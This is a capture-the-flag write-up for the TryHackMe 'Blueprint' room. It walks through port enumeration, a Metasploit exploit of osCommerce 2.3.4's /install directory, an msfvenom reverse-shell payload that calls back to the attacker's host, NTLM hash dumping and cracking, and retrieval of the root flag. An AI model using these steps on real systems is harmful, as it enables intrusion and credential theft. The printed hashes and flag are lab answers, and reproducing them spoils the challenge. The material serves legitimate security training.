 # Blueprint - Metasploit

---

![Untitled](Blueprint_Metasploit_images/Untitled.png)

---

# Enumeration

![Untitled](Blueprint_Metasploit_images/Untitled%201.png)

```tsx
PORT      STATE  SERVICE      VERSION
80/tcp    open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
.
.
.
8080/tcp  open   http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-04-11 22:52  oscommerce-2.3.4/
| -     2019-04-11 22:52  oscommerce-2.3.4/catalog/
| -     2019-04-11 22:52  oscommerce-2.3.4/docs/
|_
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
```

On the default port `80` of target machine running `http` service, the `http-title` is `404` which mean the page is not set up on this port

![Untitled](Blueprint_Metasploit_images/Untitled%202.png)

Let’s move to port `8080` which has multiple directories such as:

- `oscommerce-2.3.4/`
- `oscommerce-2.3.4/catalog/`
- `oscommerce-2.3.4/docs/`

![Untitled](Blueprint_Metasploit_images/Untitled%203.png)

![Untitled](Blueprint_Metasploit_images/Untitled%204.png)

![Untitled](Blueprint_Metasploit_images/Untitled%205.png)

View the `catalog/` path and it return a html page → Get around and find some vulnerabilities in here

# Exploit

After researching about ************oscommerce 2.3.4************, there is a directory `/install` which could exploitable

```
If an Admin has not removed the /install/ directory as advised from an osCommerce installation, it is possible for an unauthenticated attacker to reinstall the page
```

![Untitled](Blueprint_Metasploit_images/Untitled%206.png)

Start the ********************metasploit******************** and search for Module `oscommerce`

![Untitled](Blueprint_Metasploit_images/Untitled%207.png)

Set the options as following with your own `LHOST` and `LPORT`

![Untitled](Blueprint_Metasploit_images/Untitled%208.png)

Let’s exploit

![Untitled](Blueprint_Metasploit_images/Untitled%209.png)

We are in but the the shell is not stable

![Untitled](Blueprint_Metasploit_images/Untitled%2010.png)

Here, we need a payload reverse shell to get through this

Create a shell with `msfvenom`

```tsx
┌──(kali㉿kali)-[~/TryHackMe/Blueprint]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.97.213 LPORT=4242 -f exe > shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes

┌──(kali㉿kali)-[~/TryHackMe/Blueprint]
└─$ ls -l 
total 76
-rw-r--r-- 1 kali kali 73802 Jun 18 10:32 shell.exe
```

Start another ******************metasploit****************** and use module `exploit/multi/handler`

![Untitled](Blueprint_Metasploit_images/Untitled%2011.png)

![Untitled](Blueprint_Metasploit_images/Untitled%2012.png)

Type `exploit` to start listening

![Untitled](Blueprint_Metasploit_images/Untitled%2013.png)

Go back to the first ******************metasploit****************** window, upload the `shell.exe` and `execute` it

![Untitled](Blueprint_Metasploit_images/Untitled%2014.png)

![Untitled](Blueprint_Metasploit_images/Untitled%2015.png)

```
meterpreter > hashdump                                                                                                                           
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::                                                           
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
```

We got the hash → Use ********************Crackstation******************** to crack the hash and get the NTLM decrypted

![Untitled](Blueprint_Metasploit_images/Untitled%2016.png)

Back to the previous ********************metasploit********************, navigate to `C:\Users\Administrator\Desktop` → Get the root flag

```
meterpreter > pwd                                                                                                             
C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes
meterpreter > cd C:
meterpreter > cd Users                                                                                                                                       
meterpreter > cd Administrator                                                                                                                               
meterpreter > cd Desktop                                                                                                                                     
meterpreter > ls                                                                                                                                             
Listing: C:\Users\Administrator\Desktop                                                                                                                      
=======================================                                                                                                                      
                                                                                                                                                             
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-04-11 18:36:47 -0400  desktop.ini
100666/rw-rw-rw-  37    fil   2019-11-27 13:15:37 -0500  root.txt.txt

meterpreter > cat root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```